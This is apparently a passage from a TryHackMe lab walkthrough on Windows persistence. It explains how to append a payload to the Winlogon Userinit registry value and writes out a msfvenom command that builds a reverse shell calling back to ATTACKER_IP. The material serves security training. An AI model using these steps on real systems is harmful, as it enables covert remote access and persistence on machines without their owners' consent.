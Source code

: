 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c99038cd6cc9e37512edabb1f873a4da.png)

	After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).
	THM flagUsing your newly obtained shell, execute C:\flags\flag11.exe to get a flag!

Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

	Winlogon uses some registry keys under HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ that could be interesting to gain persistence:

    Userinit points to userinit.exe, which is in charge of restoring your user profile preferences.
    shell points to the system's shell, which is usually explorer.exe.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f3c2215af6e3f2d19313498fca62a9d4.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe

        


```

	We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use C:\Windows:

```

Command Prompt

C:\> move revshell.exe C:\Windows

        


```

	We then alter either shell or Userinit in HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\. In this case we will use Userinit, but the procedure with shell is the same.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/dc5fa3e75ff056f11e16c03373799f45.png)
